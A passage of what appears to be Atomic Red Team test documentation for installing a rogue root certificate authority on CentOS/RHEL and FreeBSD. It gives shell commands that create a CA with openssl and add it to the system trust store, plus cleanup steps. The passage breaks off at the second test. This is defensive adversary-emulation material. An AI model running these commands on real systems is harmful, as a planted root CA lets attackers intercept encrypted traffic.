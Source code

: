 <br/>

## Atomic Test #1 - Install root CA on CentOS/RHEL

Creates a root CA with openssl

**Supported Platforms:** Linux

**auto_generated_guid:** 9c096ec4-fd42-419d-a762-d64cc950627e

#### Inputs:

| Name          | Description                                             | Type | Default Value |
| ------------- | ------------------------------------------------------- | ---- | ------------- |
| cert_filename | Path of the CA certificate we create                    | path | rootCA.crt    |
| key_filename  | Key we create that is used to create the CA certificate | path | rootCA.key    |

#### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)

```sh
openssl genrsa -out #{key_filename} 4096
openssl req -x509 -new -nodes -key #{key_filename} -sha256 -days 365 -subj "/C=US/ST=Denial/L=Springfield/O=Dis/CN=www.example.com" -out #{cert_filename}
cp #{cert_filename} /etc/pki/ca-trust/source/anchors/
update-ca-trust
```

#### Cleanup Commands:

```sh
rm /etc/pki/ca-trust/source/anchors/#{cert_filename}
update-ca-trust
```

<br/>
<br/>

## Atomic Test #2 - Install root CA on FreeBSD

Creates a root CA with openssl

**Supported Platforms:** Linux

**auto_generated_guid:** f4568003-1438-44ab-a234-b3252ea7e7a3

#### Inputs:

| Name          | Description                                             | Type | Default Value |
| ------------- | ------------------------------------------------------- | ---- | ------------- |
| cert_filename | Path of the CA certificate we create                    | path | rootCA.crt    |
| key_filename  | Key we create that is used to create the CA certificate | path | rootCA.key    |

#### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)
